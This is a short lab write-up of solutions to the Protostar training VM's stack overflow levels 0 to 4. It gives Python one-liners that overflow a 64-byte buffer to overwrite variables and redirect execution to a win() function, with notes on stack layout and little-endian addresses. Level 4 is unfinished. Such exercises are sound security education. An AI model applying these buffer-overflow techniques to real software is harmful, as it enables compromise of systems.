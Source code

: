 # Protostar

`$ cd /opt/protostar/bin`

## Stack 0

`$ python -c 'print "A"*65' | ./stack0`

Note: That's because the `modified` variable is on the stack before the `buffer[64]` which makes the 65th byte (A = 0x41) overwrite the value that is no longer 0.

## Stack 1

`$ ./stack1 $(python -c 'print "A"*64+"dcba"')`

Note: It's mostly same as `Stack 0`, although this time we remember values on x86 are Little Endian which means byte order is reversed - `0x61626364` (abcd) becomes `\x64\x63\x62\x61` (dcba).

## Stack 2

`$ GREENIE=$(python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"') ./stack2`

## Stack 3

```
$ objdump -d stack3 | grep '<win'
08048424 <win>:
```

So our function's at ==08048424== -> \x24\x84\x04\x08

```
$ python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack 4

```
$ objdump -d stack4 | grep win
080483f4 <win>:
```

[WIP]